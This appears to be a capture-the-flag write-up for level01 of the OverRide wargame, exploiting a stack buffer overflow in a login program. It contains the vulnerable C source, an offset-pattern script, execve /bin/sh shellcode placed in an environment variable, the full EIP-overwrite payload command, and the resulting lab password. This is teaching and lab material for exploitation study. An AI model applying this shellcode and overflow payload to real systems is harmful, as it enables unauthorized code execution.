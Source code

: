 ## level01 (stack buffer overflow)
```clike=
static char input_buf[256];

int verify_user_name()
{
    puts("verifying username....");
    return strcmp(input_buf, "dat_wil");
}

int verify_user_pass(char *input)
{
    return strcmp(input, "admin");
}

int main()
{
    char buf1[64]; // 92 - 28
    int num;
    
    memset(buf1, 0, 16);
    num = 0;
    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username:");
    fgets(input_buf, 256, stdin);
    num = verify_user_name();
    if (num != 0)
    {
        puts("nope, incorrect username");
        return 1;
    }
    puts("Enter Password:");
    fgets(buf1, 100, stdin);
    num = verify_user_pass(buf1);
    if (num != 0)
    {
        puts("nope, incorrect password");
        return 1;
    }
    return 0;
}
```

Looking at the surface, it looks like guessing the password wont help us acheive our goal. In the buffer to store the password, it looks like fgets is reading more characters than the buf1 can handle, which might be vulnerable to a buffer overflow.

I have found this python program below to help us determine the buffer overflow offset with a pattern, it is like follows.
```python=
#!/usr/bin/env python

# https://github.com/Svenito/exploit-pattern/blob/master/pattern.py
import sys

try:
    import clipboard
except ImportError:
    pass
from string import ascii_uppercase, ascii_lowercase, digits

MAX_PATTERN_LENGTH = 20280


class MaxLengthException(Exception):
    pass


class WasNotFoundException(Exception):
    pass


def pattern():
    for upper in ascii_uppercase:
        for lower in ascii_lowercase:
            for digit in digits:
                yield upper + lower + digit


def pattern_gen(length):
    """
    Generate a pattern of a given length up to a maximum
    of 20280 - after this the pattern would repeat
    """
    if length > MAX_PATTERN_LENGTH:
        raise MaxLengthException(
            "ERROR: Pattern length exceeds maximum of {0}".format(MAX_PATTERN_LENGTH)
        )

    result = ""
    for p in pattern():
        if len(result) < length:
            result += p
        else:
            return result[:length]

    # If we end up here we've exhausted all characters so truncate the pattern
    return result[:length]


def pattern_search(search_pattern):
    """
    Search for search_pattern in pattern. Convert from hex if needed
    Looking for needle in haystack
    """
    needle = search_pattern

    try:
        if needle.startswith("0x"):
            # Strip off '0x', convert to ASCII and reverse
            needle = needle[2:]
            needle = bytearray.fromhex(needle).decode("ascii")
            needle = needle[::-1]
    except (ValueError, TypeError) as e:
        raise

    haystack = ""
    for p in pattern():
        haystack += p
        found_at = haystack.find(needle)
        if found_at > -1:
            return found_at

    raise WasNotFoundException(
        "Couldn`t find {0} ({1}) "
        "anywhere in the pattern.".format(search_pattern, needle)
    )


def print_help():
    print("Usage: {0} [LENGTH|PATTERN]\n".format(sys.argv[0]))
    print("Generate a pattern of length LENGTH or search for PATTERN and ")
    print("return its position in the pattern.\n")


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print_help()
        sys.exit(0)

    if sys.argv[1] == "-h" or sys.argv[1] == "--help":
        print_help()
        sys.exit(0)

    if sys.argv[1].isdigit():
        try:
            pat = pattern_gen(int(sys.argv[1]))
            try:
                clipboard.copy(pat)
                print("Pattern copied to clipboard: \n")
            except NameError:
                pass

            print(pat)

        except MaxLengthException as e:
            print(e)
    else:
        try:
            found = pattern_search(sys.argv[1])
            print(
                "Pattern {0} first occurrence at "
                "position {1} in pattern.".format(sys.argv[1], found)
            )
        except WasNotFoundException as e:
            print(e)
            sys.exit(1)
        except (ValueError, TypeError):
            print("Unable to convert hex input for searching. Invalid hex?")
            sys.exit(1)
```
I generated a pattern with the following output and I tried running it in the program. As you can see , the saved EIP for changed after the fgets call.
```
level01@OverRide:/tmp$ python pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

![image](https://hackmd.io/_uploads/S1dLaEwIa.png)

I used the same program to find the position of the offset, and it is at 80 bytes.
```
level01@OverRide:~$ python /tmp/pattern.py 6Ac7
Pattern 6Ac7 first occurrence at position 80 in pattern.
level01@OverRide:~$
```

I used a shellcode from the site `https://shell-storm.org/shellcode/index.html` and I generated a payload. I also put the shellcode in the environment variable so that it can be jumped to by the saved EIP.

I saved the shellcode in the env like so ;
```
 export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"`
 ```

Then, I need to get the address of the environment variables for the EIP to jump to. I used the `x/s *((char **)environ)` command in GDB and got the following output. As we can see, we have the address to our shellcode. I have added 20 to the final input because gdb has set **some env vars that might affect the accuracy of this reading**.
![image](https://hackmd.io/_uploads/S1yqYSPIT.png)

```
(python -c 'print "dat_wil" + "\n" + "B" * 80 + "\x81\xd8\xff\xff"'; cat) | ./level01
```

![image](https://hackmd.io/_uploads/SJoD_rDU6.png)

`PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` is the password.

